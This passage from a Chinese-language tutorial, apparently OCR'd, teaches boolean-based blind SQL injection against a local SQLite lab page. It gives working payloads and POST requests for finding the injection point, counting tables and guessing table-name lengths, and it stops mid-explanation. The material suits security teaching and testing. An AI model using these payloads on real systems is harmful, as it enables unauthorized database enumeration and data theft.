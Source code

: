 3、布尔型SQL盲注

在本节中我们将讨论SQL盲注技巧。基于联合查询的注入简单而直接，但盲注就比较需要时间和技巧了。在开始之前，先鉴别下注入点是字符型还是数字型的，如果注入点是数字型，那我们需要做的调整和payload将如以下所示。

paramater=value and 2 < 3--
如果注入点是字符型的，那payload就长以下这样:

paramater=value' and 2 < 3-- -
paramater=value) and 2 < 3-- -
paramater=value') and 2 < 3-- -
如果SQL注入是字符型的，只要将你的payload放置到闭合分割符和– -之间，假设我们用来探测的语句是:

paramater=value) and 2 < 3-- -
那么，payload将被放置在value)和– -之间:

paramater=value) put_your_payload_here-- -
现在，我们开始对数据库进行枚举，在本例中的index.php脚本中，POST参数'tag‘存在布尔型的SQL盲注，一个可用请求如下：

http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu&search=Check+Plan
让我们开始吧!

计算表单数量

为了计算表单的数量，我们可以使用如下payload：

and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
用数字来替换number_of_table，现在就让我们在实验环境中测试吧，我们将判断数据库表单总数是否小于5，payload长这样：

and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) <5
然后注入的HTTP请求长以下这样：

http://127.0.0.1/sqlite-lab/index.php
POST request data
tag=ubuntu' and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < 5 -- - search=Check+Plan
http://p2.qhimg.com/t010ba0378f779f38e6.png
在fuzz中，我们需要检查页面内容与之前是否一致，一致则为真即表单数量小于5。接着，当我们将数量改为2，数据库表单数量为2，因此状态为假，即页面将与之前不一致。为了确认表单数量，使用=来代替<和>。

http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) =2 -- -&search=Check+Plan
确认了表单数量后，我们就一个接一个地猜解表名。

猜解表名

为了猜解表名长度，可以使用以下payload：

and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
此处，将table_name_length_number替换为数字，如以下我们确认第一个表名长度是否小于6，payload：

and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) < 6
通过fuzz，我们可以得到表名的长度，然后接着猜解下一个表名的长度，只需要增加limit和offset的值即可：
